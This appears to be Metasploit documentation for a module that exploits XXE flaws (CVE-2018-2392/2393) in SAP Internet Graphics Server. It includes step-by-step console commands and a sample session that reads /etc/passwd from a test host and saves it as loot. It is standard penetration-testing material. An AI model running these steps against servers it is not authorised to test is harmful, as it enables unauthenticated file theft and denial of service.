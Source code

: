 ## Vulnerable Application
This module exploits two vulnerabilities, CVE-2018-2392 and CVE-2018-2393, within version 7.20, 7.20EXT, 7.45, 7.49,
and 7.53 of SAP Internet Graphics Server (IGS). Both of these vulnerabilities occur due a lack of validation on XML
External Entities when XML files are uploaded via the /XMLCHART page. Unauthenticated remote attackers can exploit
this vulnerability to either read files from the server's file system as the XXX user, or conduct a denial of service
attack against the vulnerable SAP IGS server.

### Application Background
The Internet Graphics Service (IGS) provides infrastructure to enable developers to display graphics
in an internet browser with minimal effort. It has been integrated in several different SAP UI technologies
where is provides a say for data from another SAP system or data source to be utilized to generate
dynamic graphical or non-graphical output.

### Install steps
1. Register for an account at https://accounts.sap.com/ui/public/showRegisterForm?spName=profile.people.sap.com&targetUrl=&sourceUrl=
2. Click on the link in the email that will be sent to activate your account.
3. Browse to http://service.sap.com/swdc. Accept the legal reguirements.
4. XXXX ??? At this point I couldn't download any software as none of the download pages are accessible.
   I think you need a paid subscription to access them.

SAP IGS versions: 7.20, 7.20EXT, 7.45, 7.49, 7.53 are affected by this vulnerability.
Installing and Updating the IGS [instructions][2].
Configuring the IGS [instructions][3].
Administering the IGS [instructions][4].

Once set up and configured, the instances will be vulnerable on the default HTTP port 40080.

## Verification Steps

  1. Start msfconsole
  1. Do: `workspace [WORKSPACE]`
  1. Do: `use auxiliary/admin/sap/sap_igs_xxe`
  1. Do: `set RHOSTS [IP]`
  1. Do: `set FILE [remote file name]`
  1. Do: `set SHOW [true|false]`
  1. Do: `set action READ`
  1. Do: `check`
  1. Do: `run`
  1. Verify that the contents of the file you specified were returned.

## Options

### FILE

File to read from the remote server. Example: `/etc/passwd`

### URN

This is the URL of the XMLCHART page on the SAP IGS server that is vulnerable to XXE.
By default it is set to `/XMLCHART`, however it can be changed if the SAP IGS server
was installed under a different path than the web root. For example if the SAP IGS
server was installed to the `/igs/` path under the web root, then this value would be
set to `/igs/XMLCHART`.

## Actions
```
   Name  Description
   ----  -----------
   READ  Remote file read
   DOS   Denial Of Service
```

## Scenarios

### Vulnerable SAP IGS release: 7.45 running on SUSE Linux Enterprise Server for SAP Applications 12 SP1

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use auxiliary/admin/sap/sap_igs_xxe
msf6 auxiliary(admin/sap/sap_igs_xxe) > set RHOSTS 10.10.10.10
RHOSTS => 10.10.10.10
msf6 auxiliary(admin/sap/sap_igs_xxe) > set FILE /etc/passwd
FILE => /etc/passwd
msf6 auxiliary(admin/sap/sap_igs_xxe) > set action READ
action => READ
msf6 auxiliary(admin/sap/sap_igs_xxe) > set Proxies http:127.0.0.1:8080
Proxies => http:127.0.0.1:8080
msf6 auxiliary(admin/sap/sap_igs_xxe) > options

Module options (auxiliary/admin/sap/sap_igs_xxe):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FILE     /etc/passwd          yes       File to read from the remote server
   Proxies  http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.10.10          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    40080                yes       The target port (TCP)
   SHOW     true                 no        Show remote file content
   SSL      false                no        Negotiate SSL/TLS for outgoing connections
   URN      /XMLCHART            no        SAP IGS XMLCHART URN
   VHOST                         no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   READ  Remote file read


msf6 auxiliary(admin/sap/sap_igs_xxe) > check
[+] 10.10.10.10:40080 - The target is vulnerable. OS info: SUSE Linux Enterprise Server for SAP Applications 12 SP1
msf6 auxiliary(admin/sap/sap_igs_xxe) > run
[*] Running module against 10.10.10.10

[+] File: /etc/passwd content from host: 10.10.10.10
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/bin/bash
daemon:x:2:2:Daemon:/sbin:/bin/bash
lp:x:4:7:Printing daemon:/var/spool/lpd:/bin/bash
mail:x:8:12:Mailer daemon:/var/spool/clientmqueue:/bin/false
news:x:9:13:News system:/etc/news:/bin/bash
uucp:x:10:14:Unix-to-Unix CoPy system:/etc/uucp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
man:x:13:62:Manual pages viewer:/var/cache/man:/bin/bash
wwwrun:x:30:8:WWW daemon apache:/var/lib/wwwrun:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
nobody:x:65534:65533:nobody:/var/lib/nobody:/bin/bash
messagebus:x:499:499:User for D-Bus:/var/run/dbus:/bin/false
sshd:x:498:498:SSH daemon:/var/lib/sshd:/bin/false
polkitd:x:497:496:User for polkitd:/var/lib/polkit:/sbin/nologin
nscd:x:496:495:User for nscd:/run/nscd:/sbin/nologin
rpc:x:495:65534:user for rpcbind:/var/lib/empty:/sbin/nologin
openslp:x:494:2:openslp daemon:/var/lib/empty:/sbin/nologin
uuidd:x:493:492:User for uuidd:/var/run/uuidd:/bin/bash
usbmux:x:492:65534:usbmuxd daemon:/var/lib/usbmuxd:/sbin/nologin
ntp:x:74:491:NTP daemon:/var/lib/ntp:/bin/false
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
vnc:x:491:490:user for VNC:/var/lib/empty:/sbin/nologin
rtkit:x:490:489:RealtimeKit:/proc:/bin/false
pulse:x:489:488:PulseAudio daemon:/var/lib/pulseaudio:/sbin/nologin
statd:x:488:65534:NFS statd daemon:/var/lib/nfs:/sbin/nologin
ftpsecure:x:487:65534:Secure FTP User:/var/lib/empty:/bin/false
postfix:x:51:51:Postfix Daemon:/var/spool/postfix:/bin/false
scard:x:486:485:Smart Card Reader:/var/run/pcscd:/usr/sbin/nologin
gdm:x:485:483:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
erpadm:x:1001:1001:SAP System Administrator:/home/erpadm:/bin/csh
sapadm:x:1002:1001:SAP System Administrator:/home/sapadm:/bin/false

[+] File: /etc/passwd saved in: /Users/vladimir/.msf4/loot/20200929135102_SAP_TEST_10.10.10.10_sap.igs.xxe_302025.txt
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/sap_igs_xxe) > services
Services
========

host         port   proto  name  state  info
----         ----   -----  ----  -----  ----
10.10.10.10  40080  tcp    http  open   SAP Internet Graphics Server (IGS); OS info: SUSE Linux Enterprise Server for SAP Applications 12 SP1

msf6 auxiliary(admin/sap/sap_igs_xxe) > vulns

Vulnerabilities
===============

Timestamp                Host         Name                                    References
---------                ----         ----                                    ----------
2020-09-29 10:51:01 UTC  10.10.10.10  SAP Internet Graphics Server (IGS) XXE  CVE-2018-2392,CVE-2018-2393,URL-https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf

msf6 auxiliary(admin/sap/sap_igs_xxe) > loot

Loot
====

host         service  type         name         content     info         path
----         -------  ----         ----         -------     ----         ----
10.10.10.10           sap.igs.xxe  /etc/passwd  text/plain  SAP IGS XXE  /Users/vladimir/.msf4/loot/20200929135102_SAP_TEST_10.10.10.10_sap.igs.xxe_302025.txt

```

[1]: https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf
[2]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193dbeb5c617e2e10000000a42189b.html
[3]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e1939c9b5c617e2e10000000a42189b.html
[4]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193988b5c617e2e10000000a42189b.html
